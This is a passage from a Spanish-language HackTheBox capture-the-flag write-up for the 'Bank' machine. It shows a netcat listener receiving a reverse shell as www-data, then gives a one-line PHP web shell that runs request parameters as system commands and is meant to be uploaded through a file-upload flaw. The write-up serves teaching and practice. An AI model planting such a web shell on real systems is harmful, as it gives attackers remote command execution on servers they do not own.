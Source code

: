* ¡Y estamos dentro!:
```bash
nc -nvlp 443                          
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.29] 56838
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 01:46:21 up 38 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
Ya solo es cosa de buscar la flag del usuario que esta en el directorio **/home**.

<h2 id="cmd">Ganando Acceso con Archivo CMD de PHP</h2>

Como ya vimos que si acepto nuestro archivo malicioso, vamos a probar a cargar un archivo que contenga una CMD en PHP, para que podamos ejecutar comandos desde la Web y poder ganar acceso desde ahí.

Hagamoslo por pasos:

* Crea el siguiente script en **PHP**:
```bash
<?php
	system($_REQUEST['cmd']);
?>
```

* Carga el script y ve entra en ese archivo:

<p align="center">
<img src="/assets/images/htb-writeup-bank/Captura12.png">
</p>
